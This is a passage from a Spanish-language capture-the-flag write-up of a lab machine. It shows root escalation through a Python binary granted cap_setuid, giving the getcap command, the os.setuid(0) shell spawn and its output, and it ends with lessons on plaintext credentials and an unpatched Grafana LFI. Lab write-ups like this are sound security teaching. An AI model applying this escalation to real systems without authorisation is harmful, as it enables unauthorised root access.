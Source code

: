 Aquí notamos que el sistema tiene habilitada la capacidad `cap_setuid`, lo que nos permite explorar si algún binario puede ser utilizado para ejecutar comandos con privilegios elevados.

Comprobamos las capacidades específicas de Python en el sistema:

```bash
getcap /usr/bin/python3.8
```

**Salida:**
```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+ep
```

Este resultado confirma que el binario de Python tiene la capacidad `cap_setuid`, lo que nos permite cambiar el ID de usuario efectivo (`UID`) del proceso y, por lo tanto, obtener una shell como root.

---

### 3. ⚡ Escalando privilegios con Python

Utilizamos Python para ejecutar una shell con privilegios de root:

```bash
python3
```

Dentro del intérprete de Python, ejecutamos los siguientes comandos:

```python
import os
os.setuid(0)
os.system("/bin/bash")
```

**Resultado:**
```
root@TheHackersLabs-Incertidumbre:~# whoami
root
```

¡Somos root! Ahora tenemos control total del sistema.

---

### ✍️ Reflexión final

Este CTF nos lleva a reflexionar sobre varias malas prácticas comunes en sistemas que, combinadas, pueden comprometer la seguridad de un servidor:

1. **Almacenamiento de contraseñas en archivos de configuración:**  
   La inclusión de credenciales en texto plano, como las que encontramos en el archivo `grafana.ini`, facilita el acceso no autorizado. Es fundamental utilizar gestores de secretos seguros para evitar este tipo de exposiciones.

2. **Vulnerabilidades conocidas y falta de actualizaciones:**  
   Grafana en su versión **v8.2.0** tiene una vulnerabilidad de **LFI** (CVE-2021-43798). Este tipo de fallos se corrige mediante actualizaciones regulares. Mantener el software actualizado es una línea de defensa clave.
